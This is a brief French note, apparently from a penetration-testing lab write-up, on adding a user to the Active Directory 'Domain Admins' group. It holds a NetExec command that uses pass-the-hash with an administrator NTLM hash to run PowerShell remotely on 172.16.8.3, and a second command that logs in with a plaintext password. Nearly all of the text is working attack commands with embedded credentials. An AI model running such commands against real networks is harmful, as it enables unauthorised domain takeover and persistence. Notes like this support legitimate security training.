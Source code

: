 



Ajouter user au groupe Domain Admins

```bash
nxc smb 172.16.8.3 -u administrator -H fd1f7e5564060258ea787ddbb6e6afa2 -X 'Add-ADGroupMember -Identity "Domain Admins" -Members <user>'
```

Valider l'ajout au groupe

```sh
nxc smb 172.16.8.3 -u ttimmons -p Repeat09
```